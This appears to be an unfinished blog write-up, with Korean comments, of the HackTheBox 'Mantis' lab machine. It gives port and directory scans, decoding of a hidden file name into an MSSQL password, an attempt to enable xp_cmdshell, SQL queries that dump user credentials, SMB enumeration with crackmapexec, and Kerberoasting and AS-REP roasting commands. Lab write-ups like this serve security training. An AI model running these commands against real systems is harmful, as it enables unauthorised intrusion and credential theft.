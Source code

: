 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d

# hash find / https://md5hashing.net/hash_type_checker : m$$ql_S@_P@ssW0rd!
echo -n "6d2424716c5f53405f504073735730726421" | xxd -r -p
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/465c02373b516278293589f23352beb9_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/bd6f445def888058e877f5ca9abbd8c3_MD5.jpeg)
### MSSQL 
```bash
# mssql 접근
impacket-mssqlclient admin@10.129.110.72

# rce permission error로 불가
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# DB 조사
SELECT name FROM sys.databases

# 테이블 조사
use database
SELECT * FROM INFORMATION_SCHEMA.TABLES

# 컬럼 조사
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord'

# 데이터 얻기 / James : james@htb.local : J@m3s_P@ssW0rd!
SELECT UserName, Email, Password FROM blog_Orchard_Users_UserPartRecord
```

![](/assets/images/posts/2025-03-22-Mantis/f70eda358256e33f8bc51f87a38dd1ee_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/182a7b0de707875646da84310c2f5f70_MD5.jpeg)
### SMB
```bash
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --shares
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --users
```
![](/assets/images/posts/2025-03-22-Mantis/727355dbf012cad50ded1b4832834d16_MD5.jpeg)

### RPC
```bash

```


### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http

sudo impacket-GetUserSPNs -request -dc-ip 10.129.110.72 htb.local/james
impacket-GetNPUsers -dc-ip 10.129.110.72 -request -outputfile hashes.asreproast htb.local/james

mount -t cifs -o rw,username=james,password= '//10.129.110.72/<폴더명>' /mnt
```